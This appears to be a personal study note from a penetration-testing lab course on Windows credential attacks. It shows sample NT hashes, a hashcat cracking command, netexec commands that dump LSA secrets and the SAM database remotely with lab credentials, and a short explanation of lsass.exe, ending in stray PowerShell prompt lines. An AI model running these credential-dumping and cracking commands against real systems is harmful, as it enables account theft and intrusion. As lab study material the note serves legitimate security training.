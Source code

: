 the hashes.txt should look like this
```shell-session
64f12cddaa88057e06a81b54e73b949b
31d6cfe0d16ae931b73c59d7e0c089c0
6f8c3f4d3869a10f3b4f0522f537fd33
184ecdda8cf1dd238d438c4aea4d560d
f7eb9c06fafaa23c4bcf22ba6781c1e2
```

### <mark class="hltr-orange">Running hashcat against NT hashes</mark>

```shell-session
sudo hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt
```

### <mark class="hltr-orange">Netexec SAM & LSA</mark>

#### <mark class="hltr-grey">Dumping LSA Secrets Remotely</mark>

LSA secrets is a special protected storage for important data used by the **Local Security Authority** (LSA) in Windows.

Originally, the secrets contained cached domain records. Later, Windows developers expanded the application area for the storage. At this moment, they can store PC users' text passwords, service account passwords (for example, those that must be run by a certain user to perform certain tasks), Internet Explorer passwords, RAS connection passwords, SQL and CISCO passwords, SYSTEM account passwords, private user data like EFS encryption keys, and a lot more.

❗: With access to credentials with `local admin privileges`, it is also possible for us to target LSA Secrets over the network. This could allow us to extract credentials from a running service, scheduled task, or application that uses LSA secrets to store passwords.

```shell-session
sudo nxc smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```

![[Pasted image 20240827045208.png]]

#### <mark class="hltr-grey">Dumping SAM Remotely</mark>

```shell-session
nxc smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```

## <mark class="hltr-cyan">Attacking LSASS</mark>

### <mark class="hltr-orange">What is lsass.exe</mark>

lsass.exe is a Windows process that takes care of security policy for the OS.  For example, when you logon to a Windows user account or server lsass.exe verifies the logon name and password.  If you terminate lsass.exe you will probably find yourself logged out of Windows.  lsass.exe also writes to the Windows Security Log so you can search there for failed authentication attempts along with other security policy issues.


[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> hostname
[DC01]: PS C:\Users\john\Documents>